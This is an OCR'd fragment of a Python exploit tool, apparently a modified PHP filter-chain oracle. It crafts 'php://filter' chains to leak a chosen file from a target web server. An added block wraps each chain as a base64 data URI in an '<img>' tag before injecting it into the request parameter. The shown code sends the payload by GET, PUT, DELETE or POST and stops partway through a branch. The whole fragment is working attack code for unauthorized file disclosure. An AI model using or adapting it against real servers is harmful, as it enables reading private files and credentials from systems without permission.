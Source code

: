 ```
    Used to parse the option parameter sent by the user
    """

    def parse_parameter(self, filter_chain):
        data = {}
        if '[' and ']' in self.parameter:  # Parse array elements

            main_parameter = [re.search(r'^(.*?)\[', self.parameter).group(1)]
            sub_parameters = re.findall(r'\[(.*?)\]', self.parameter)
            all_params = main_parameter + sub_parameters
            json_object = {}
            temp = json_object
            for i, element in enumerate(all_params):
                if i == len(all_params) - 1:
                    temp[element] = filter_chain
                else:
                    temp[element] = {}
                    temp = temp[element]
            data = json_object
        else:
            data[self.parameter] = filter_chain
        return merge_dicts(data, self.data)

    """
    Returns the response of a request defined with all options
    """

    def req_with_response(self, s):
        if self.delay > 0:
            time.sleep(self.delay)

        filter_chain = f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'
        # DEBUG print(filter_chain)
        merged_data = self.parse_parameter(filter_chain)

        ####Add ↓
        import base64

        insert_base64 = base64.b64encode(filter_chain.encode('utf-8')).decode('utf-8')
        payload = f"<img src='data:image/png;base64,{insert_base64}'/>"
        merged_data[self.parameter] = payload  # Fixed indentation

        #####Add ↑

        # Make the request, the verb and data encoding is defined
        try:
            if self.verb == Verb.GET:
                requ = self.session.get(self.target, params=merged_data)
                return requ
            elif self.verb == Verb.PUT:
                if self.json_input:
                    requ = self.session.put(self.target, json=merged_data)
                else:
                    requ = self.session.put(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.DELETE:
                if self.json_input:
                    requ = self.session.delete(self.target, json=merged_data)
                else:
                    requ = self.session.delete(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.POST:
                if self.json_input:
```